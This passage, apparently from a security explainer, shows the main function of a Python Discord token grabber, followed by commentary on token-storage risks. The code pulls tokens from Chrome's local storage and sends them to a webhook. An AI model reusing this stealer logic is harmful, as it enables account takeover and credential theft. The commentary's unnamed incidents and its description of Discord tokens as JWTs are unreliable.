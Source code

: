 ```python
def main() -> None:
    # Get Chrome's local storage path based on OS
    chrome_path = get_chrome_storage_path()
    if not chrome_path:
        logger.error("Could not determine Chrome storage path for this OS")
        return

    # Find and process tokens
    tokens = find_discord_tokens(chrome_path)
    if not tokens:
        logger.info("No Discord tokens found")
        return

    # Report found tokens
    report_tokens(WEBHOOK_URL, tokens)


if __name__ == "__main__":
    main()
```

The main function:
1. Determines the Chrome storage path based on the operating system
2. Searches for Discord tokens in the storage
3. Reports any found tokens to the configured webhook

## Security Implications: Real-World Impact

This code demonstrates critical security vulnerabilities that have led to real-world incidents. Understanding these implications is crucial for both developers and users.

1. **Token Storage Vulnerabilities**
   - **Real-World Example**: In 2021, a popular Discord bot had its tokens exposed when developers accidentally committed them to a public GitHub repository. Attackers used these tokens to take control of the bot, sending malicious links to thousands of servers.
   - **Technical Insight**: The code shows how easily tokens can be extracted from browser storage. Unlike cookies with the `HttpOnly` flag, tokens in local storage are accessible to any JavaScript running on the page.
   - **Impact**: Compromised tokens can lead to account takeovers, data breaches, and in Discord's case, potential access to private servers and direct messages.

2. **Predictable Token Patterns**
   - **Real-World Example**: In 2020, a security researcher discovered that many applications were using a predictable pattern for generating tokens, allowing attackers to guess valid tokens through brute force.
   - **Technical Insight**: The `DISCORD_TOKEN_PATTERN` regex demonstrates how tokens can be identified even in large text dumps. The three-part structure (user ID, timestamp, HMAC) is consistent and identifiable.
   - **Impact**: Predictable patterns make it easier for attackers to identify and extract tokens from logs, memory dumps, or network traffic.

3. **User ID Exposure**
   - **Real-World Example**: In 2019, a vulnerability in a popular social media app allowed attackers to link anonymous posts to real user accounts by decoding the first part of access tokens.
   - **Technical Insight**: The `extract_user_id_from_token` function shows how the first segment of a JWT (JSON Web Token) often contains the user ID in base64-encoded format. This can be decoded to identify the account owner.
   - **Impact**: Even if the full token isn't compromised, exposing user IDs can lead to privacy violations and targeted attacks.
